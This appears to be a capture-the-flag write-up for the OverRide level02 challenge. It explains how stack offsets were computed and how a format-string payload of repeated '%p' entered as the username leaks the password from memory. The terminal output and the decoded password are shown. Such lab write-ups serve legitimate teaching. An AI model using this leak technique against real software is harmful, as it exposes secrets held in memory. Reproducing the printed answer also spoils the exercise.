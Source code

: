 By analyzing the decompilated code we can see some vulnerabilities, 
at first we think thath the point of the exercise was to call:
system("/bin/sh");

but we had to pass the strncmp and for us it was very complicated so
we decided to do a string attack:

First thing we've done, is to calculate the distances between s and ptr.
Beacause ptr is containing the password and if we find the distances between s and ptr we could print the memory and find what was inside the stack so the password.

we know by looking the decompilated code that s is rbp-70h and ptr  is rbp-A0h => a0 = 160 and 70 = 112 => we've tried with theses value
but we didnt find the reel start of s we didnt find were was ptr.

So we decided to do the same thing but with s2 rbp-110h:
110 => 272
a0  => 160

272 - 160 = 112 ==> divide by 8 to have block of memory in 64 bits
=> 112 / 8 = 14 => So the distance between s2 and ptr is 14 blocks

We also know that the password is 41 bytes long (29 in hex),
so 41 / 8 = 5 => so the password is 5 blocks of memory long.

https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/
In 64 bits we've print the memory with %p.


level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************                                                   | HERE START OF S2
0x7fffffffe4d0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a  0x7fffffffe6c8 0x1f7ff9a08 0x41414141 (nil) (nil)  (nil) (nil) (nil) (nil) (nil)  (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
                              | Beginig of ptr                                                                               | end of ptr

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d => this is ptr so the password

756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d

pass it through decrypt.cpp

Hexadecimal: 756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d
ASCII: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
